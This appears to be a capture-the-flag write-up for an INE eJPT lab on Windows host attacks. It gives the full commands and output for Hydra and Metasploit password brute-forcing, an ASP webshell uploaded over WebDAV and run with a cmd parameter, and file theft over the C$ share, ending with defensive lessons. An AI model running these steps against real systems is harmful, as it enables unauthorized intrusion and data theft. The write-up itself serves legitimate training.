







# Host & Network Penetration Testing: System/Host-Based Attacks CTF 1

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — System/Host-Based Attacks  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-09  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to identify and exploit host/system-level attack vectors across two Windows-based network targets to uncover all hidden flags.

- **Target 1 (`target1.ine.local` - `10.5.29.75`):** Runs Microsoft IIS 10.0 with WebDAV enabled on `/webdav`. We perform an HTTP Basic Authentication brute-force attack against the user `bob` using Hydra (**Flag 1**). After confirming executable upload capabilities using `davtest`, we use `cadaver` to upload an ASP webshell (`webshell.asp`) to the WebDAV folder and execute commands to read `C:\flag2.txt` (**Flag 2**).
- **Target 2 (`target2.ine.local` - `10.5.16.49`):** Runs Windows Server 2019 Datacenter with SMB (Port 445) exposed. We use Metasploit's `auxiliary/scanner/smb/smb_login` to crack the administrator password as `pineapple`. Connecting via `smbclient` to the administrative share `C$`, we download `C:\flag3.txt` (**Flag 3**) and navigate to `C:\Users\Administrator\Desktop\` to retrieve `flag4.txt` (**Flag 4**).



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Network host discovery, service version scanning, and OS detection
- **Hydra (`v9.5`)** — High-speed network login authentication brute-forcing
- **DIRB (`v2.22`)** — Web content scanner for directory discovery
- **davtest** — WebDAV server testing and executable file extension verification
- **cadaver** — Command-line WebDAV client for file upload and management
- **Metasploit Framework (`msfconsole v6.4.12`)** — SMB authentication auditing (`auxiliary/scanner/smb/smb_login`)
- **smbclient** — Interactive command-line client for accessing Windows SMB shares

---

## 🌐 Targets

| Host | IP Address | Operating System | Key Services | Attack Vectors |
|---|---|---|---|---|
| **target1.ine.local** | `10.5.29.75` | Windows (IIS 10.0) | HTTP (80/tcp) | Weak HTTP Basic Auth (`bob:password_123321`), WebDAV Arbitrary ASP Upload & RCE |
| **target2.ine.local** | `10.5.16.49` | Windows Server 2019 Datacenter | SMB (445/tcp), NetBIOS (139/tcp), RDP (3389/tcp), MSRPC (135/tcp) | SMB Password Brute Force (`administrator:pineapple`), Administrative Share Access (`C$`) |

---

## 🔍 1. Target 1: Reconnaissance & HTTP Basic Auth Brute Force

### Step 1.1: Brute-Forcing HTTP Basic Authentication with Hydra
The lab prompt indicates that user `bob` might not have chosen a strong password on `target1.ine.local`. We use THC-Hydra against HTTP-GET on port 80 using the Metasploit UNIX passwords wordlist:

```bash
hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt target1.ine.local http-get /
```

**Hydra Output:**
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1010 login tries (l:1/p:1010), ~64 tries per task
[DATA] attacking http-get://target1.ine.local:80/
[80][http-get] host: target1.ine.local   login: bob   password: password_123321
1 of 1 target successfully completed, 1 valid password found
```

✅ **Flag 1 Captured:** The password for user `bob` is `password_123321`.

---

## 🚪 2. Target 1: WebDAV Enumeration & Arbitrary ASP Webshell Upload

### Step 2.1: Authenticated Directory Enumeration
With valid credentials for `bob`, we scan for accessible directories using `dirb`:

```bash
dirb http://target1.ine.local -u bob:password_123321
```

**DIRB Output:**
```
---- Scanning URL: http://target1.ine.local/ ----
==> DIRECTORY: http://target1.ine.local/aspnet_client/
==> DIRECTORY: http://target1.ine.local/webdav/

---- Entering directory: http://target1.ine.local/webdav/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
```

The scan reveals a listable `/webdav/` directory.

### Step 2.2: Testing WebDAV Executable Upload Capabilities with davtest
We use `davtest` to test whether the server permits uploading and executing server-side scripts:

```bash
davtest -auth bob:password_123321 -url http://target1.ine.local/webdav
```

**davtest Summary:**
```
********************************************************
/usr/bin/davtest Summary:
Created: http://target1.ine.local/webdav/DavTestDir_ODPTUXGPaPd77
PUT File: http://target1.ine.local/webdav/DavTestDir_ODPTUXGPaPd77/davtest_ODPTUXGPaPd77.asp
PUT File: http://target1.ine.local/webdav/DavTestDir_ODPTUXGPaPd77/davtest_ODPTUXGPaPd77.aspx
Executes: http://target1.ine.local/webdav/DavTestDir_ODPTUXGPaPd77/davtest_ODPTUXGPaPd77.asp
Executes: http://target1.ine.local/webdav/DavTestDir_ODPTUXGPaPd77/davtest_ODPTUXGPaPd77.aspx
```

`davtest` confirms that both `PUT` and execution of `.asp` and `.aspx` files succeed on `/webdav/`.

### Step 2.3: Uploading ASP Webshell with Cadaver
We use `cadaver` to authenticate to the WebDAV instance and upload the standard Kali ASP webshell (`/usr/share/webshells/asp/webshell.asp`):

```bash
cadaver http://target1.ine.local
```
```
Authentication required for target1.ine.local on server `target1.ine.local':
Username: bob
Password: password_123321
dav:/> cd webdav
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> exit
```

### Step 2.4: Command Execution & Flag 2 Retrieval
With `webshell.asp` uploaded, we open the webshell in Firefox and query `C:\flag2.txt`:

```
http://target1.ine.local/webdav/webshell.asp?cmd=type+c:\flag2.txt
```

**Webshell Response:**
```
\\EC2AMAZ-JVD17HK\bobtarget1.ine.local

The server's port:
80

The server's software:
Microsoft-IIS/10.0

The server's local address:
10.5.29.751f221624b0a44c97aabcd31eabcdfe07
```



✅ **Flag 2 Captured:** `1f221624b0a44c97aabcd31eabcdfe07`

---

## 🔍 3. Target 2: Reconnaissance & SMB Enumeration

### Step 3.1: Nmap Service & Script Scan
We run a comprehensive service scan against `target2.ine.local`:

```bash
nmap -sV -sC -T5 target2.ine.local
```

**Nmap Scan Output:**
```
Nmap scan report for target2.ine.local (10.5.16.49)
Host is up (0.0032s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Datacenter 17763 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: EC2AMAZ-3SC2DRK
|   NetBIOS computer name: EC2AMAZ-3SC2DRK\x00
|   Workgroup: WORKGROUP\x00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

**Key Findings:**
- Host running Windows Server 2019 Datacenter build 17763
- SMB (TCP 445) is open with message signing disabled
- Remote Desktop (RDP 3389) is active

---

## 🚪 4. Target 2: SMB Brute Force & Share Extraction

### Step 4.1: Metasploit SMB Login Brute Force
We load `auxiliary/scanner/smb/smb_login` in Metasploit to test common passwords against the local `administrator` account:

```bash
msfconsole
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS target2.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser administrator
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf6 auxiliary(scanner/smb/smb_login) > run
```

**Metasploit Output:**
```
[!] 10.5.16.49:445        - No active DB -- Credential data will not be saved!
[+] 10.5.16.49:445        - 10.5.16.49:445 - Success: '.\administrator:pineapple' Administrator
[*] target2.ine.local:445 - Scanned 1 of 1 hosts (100% complete)
[*] target2.ine.local:445 - Bruteforce completed, 1 credential was successful.
```



Cracked credentials: `administrator:pineapple`.

### Step 4.2: Enumerate Shares & Extract Flag 3
We inspect available shares using `smbclient`:

```bash
smbclient -L //target2.ine.local -U administrator
# Enter password: pineapple
```
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Shared          Disk      
        Shared2         Disk      
        Shared3         Disk      
```

With administrative rights, we have access to the root administrative share `C$`. We connect to `//target2.ine.local/C$` to inspect files:

```bash
smbclient //target2.ine.local/C$ -U administrator
# Enter password: pineapple
```

```
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Nov  7 13:45:59 2020
  Boot                              DHS        0  Wed Sep  9 10:08:52 2020
  bootmgr                          AHSR   408692  Wed Sep  9 10:03:42 2020
  BOOTNXT                           AHS        1  Sat Sep 15 12:42:30 2018
  Documents and Settings          DHSrn        0  Wed Nov 14 21:40:15 2018
  EFI                                 D        0  Wed Nov 14 12:26:18 2018
  flag3.txt                           A       34  Mon Nov  9 12:54:28 2026
  pagefile.sys                      AHS 2013265920  Mon Nov  9 12:51:51 2026
  PerfLogs                            D        0  Wed May 13 23:28:09 2020
  Program Files                      DR        0  Sat Nov  7 13:17:23 2020
  Program Files (x86)                 D        0  Sat Nov  7 13:17:24 2020
  ProgramData                       DHn        0  Wed Jan  1 13:47:15 2025
  Recovery                         DHSn        0  Wed Jan  1 13:54:07 2025
  Shared                              D        0  Tue Dec 31 16:59:14 2024
  System Volume Information         DHS        0  Sat Nov  7 12:06:43 2020
  Users                              DR        0  Wed Jan  1 14:00:24 2025
  Utilities                           D        0  Sat Nov  7 13:19:05 2020
  Windows                             D        0  Wed Jan  1 13:50:49 2025

smb: \> get flag3.txt
getting file \flag3.txt of size 34 as flag3.txt (4.2 KiloBytes/sec)
smb: \> exit
```

We read the downloaded flag on our local Kali machine:

```bash
cat flag3.txt
```
```
7e848578498d42a98e41bcf3c44ddfdc
```




✅ **Flag 3 Captured:** `7e848578498d42a98e41bcf3c44ddfdc`

---

## 📈 5. Target 2: Directory Traversal to Desktop & Flag 4

### Step 5.1: Locating & Downloading Flag 4
The final objective specifies checking the Administrator Desktop. In `smbclient`:

```bash
smbclient //target2.ine.local/C$ -U administrator
# Enter password: pineapple
```

```
smb: \> ls .\Users\Administrator\Desktop\
  .                                  DR        0  Mon Nov  9 12:54:28 2026
  ..                                 DR        0  Mon Nov  9 12:54:28 2026
  desktop.ini                       AHS      282  Wed Jan  1 14:00:35 2025
  flag4.txt                           A       34  Mon Nov  9 12:54:28 2026

smb: \> cd users
smb: \users\> cd administrator
smb: \users\administrator\> cd desktop
smb: \users\administrator\desktop\> ls
  .                                  DR        0  Mon Nov  9 12:54:28 2026
  ..                                 DR        0  Mon Nov  9 12:54:28 2026
  desktop.ini                       AHS      282  Wed Jan  1 14:00:35 2025
  flag4.txt                           A       34  Mon Nov  9 12:54:28 2026

smb: \users\administrator\desktop\> get flag4.txt
getting file \users\administrator\desktop\flag4.txt of size 34 as flag4.txt (1.2 KiloBytes/sec)
smb: \users\administrator\desktop\> exit
```

> 💡 **Troubleshooting Note:** Attempting `get flag4.txt` directly from root `smb: \>` fails with `NT_STATUS_OBJECT_NAME_NOT_FOUND`. In `smbclient`, you must first `cd` into the directory before executing `get`.

We read the downloaded flag on Kali:

```bash
cat flag4.txt
```
```
3ca433b2ccc04632b8dc60fe62906fd7
```




✅ **Flag 4 Captured:** `3ca433b2ccc04632b8dc60fe62906fd7`

---

## 🏁 6. Flags Captured

| Flag | Target | Objective Description | Value |
|---|---|---|---|
| **Flag 1** | `target1.ine.local` | Bob's password via HTTP Basic Auth brute force | `password_123321` |
| **Flag 2** | `target1.ine.local` | `C:\flag2.txt` via WebDAV ASP webshell command execution | `1f221624b0a44c97aabcd31eabcdfe07` |
| **Flag 3** | `target2.ine.local` | `C:\flag3.txt` via SMB admin login & `C$` share access | `7e848578498d42a98e41bcf3c44ddfdc` |
| **Flag 4** | `target2.ine.local` | `C:\Users\Administrator\Desktop\flag4.txt` via SMB file download | `3ca433b2ccc04632b8dc60fe62906fd7` |

---

## 🧠 Key Learnings & Takeaways

1. **WebDAV Arbitrary Script Execution:** Allowing `PUT` requests on a WebDAV directory without restricting executable MIME types/extensions (`.asp`, `.aspx`, `.php`) is a critical security vulnerability. Always disable execute permissions on writable WebDAV virtual directories in IIS.
2. **Password Hygiene & Account Lockout:** Both `bob:password_123321` and `administrator:pineapple` were cracked in seconds with standard password wordlists because neither HTTP nor SMB had account lockout policies in place. Strong complexity rules and lockout thresholds mitigate online brute-force attacks.
3. **Administrative SMB Share Exposure (`C$`):** Default administrative shares (`C$`, `ADMIN$`) grant full unrestricted access to system drives. Compromising an administrator password on an SMB service immediately turns into complete filesystem takeover.
4. **Command Client Nuances:**
   - In `cadaver`, use `put <local_path>` to upload webshells.
   - In `smbclient`, relative file downloads require changing into the target directory with `cd` before running `get <file>` to avoid `NT_STATUS_OBJECT_NAME_NOT_FOUND` errors.
